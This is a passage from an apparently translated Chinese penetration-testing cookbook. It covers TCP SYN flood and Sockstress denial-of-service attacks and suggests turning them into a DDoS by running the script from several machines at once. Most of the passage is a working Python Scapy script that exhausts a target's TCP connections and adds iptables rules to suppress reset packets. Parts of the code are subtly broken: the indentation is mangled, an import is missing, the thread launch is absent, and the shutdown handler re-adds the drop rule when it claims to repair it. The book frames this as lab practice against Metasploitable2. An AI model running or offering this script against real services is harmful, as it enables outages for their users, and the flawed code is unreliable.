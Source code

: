 ### 工作原理

TCP 服务只允许建立有限数量的半开连接。 通过快速发送大量的 TCP SYN 请求，这些可用的连接会被耗尽，并且服务器将不再能够接受新的传入连接。 因此，新用户将无法访问该服务。 通过将其用作 DDoS 并且使多个攻击系统同时执行脚本，该攻击的效率可以进一步加强。

## 6.8 Sockstress DoS 攻击

Sockstress DoS 攻击涉及到与目标服务相关的 TCP 端口建立一系列开放连接。 TCP 握手中的最终 ACK 响应的值应为 0。

### 准备

为了使用 Scapy 对目标执行Sockstress DoS 攻击，你需要有一个运行 TCP 网络服务的远程系统。 提供的示例使用 Metasploitable2 的实例用。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

以下脚本使用 Scapy 编写，用于对目标系统执行 Sockstress DoS 攻击。 以下脚本可用于测试漏洞服务：

```py
#!/usr/bin/python
from scapy.all import * 
from time import sleep 
import thread 
import logging 
import os 
import signal 
import sys 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

if len(sys.argv) != 4:   
    print "Usage - ./sock_stress.py [Target-IP] [Port Number] [Threads]"   
    print "Example - ./sock_stress.py 10.0.0.5 21 20"   
    print "Example will perform a 20x multi-threaded sock-stress DoS attack "   
    print "against the FTP (port 21) service on 10.0.0.5"  
    print "\n***NOTE***"
    print "Make sure you target a port that responds when a connection is made"   
    sys.exit()

target = str(sys.argv[1]) 
dstport = int(sys.argv[2]) 
threads = int(sys.argv[3])

## This is where the magic happens 
def sockstress(target,dstport):   while 0 == 0:      
    try:         
        x = random.randint(0,65535)         
        response = sr1(IP(dst=target)/TCP(sport=x,dport=dstport,flags ='S'),timeout=1,verbose=0)                        
        send(IP(dst=target)/ TCP(dport=dstport,sport=x,window=0,flags='A',ack=(response[TCP].seq + 1))/'\x00\x00',verbose=0)     
    except:         
        pass
 
## Graceful shutdown allows IP Table Repair 
def graceful_shutdown(signal, frame):   
    print '\nYou pressed Ctrl+C!'  
    print 'Fixing IP Tables'   
    os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d ' + target + ' -j DROP')   
    sys.exit()

## Creates IPTables Rule to Prevent Outbound RST Packet to Allow Scapy TCP Connections 
os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d ' + target + ' -j DROP') 
signal.signal(signal.SIGINT, graceful_shutdown)
```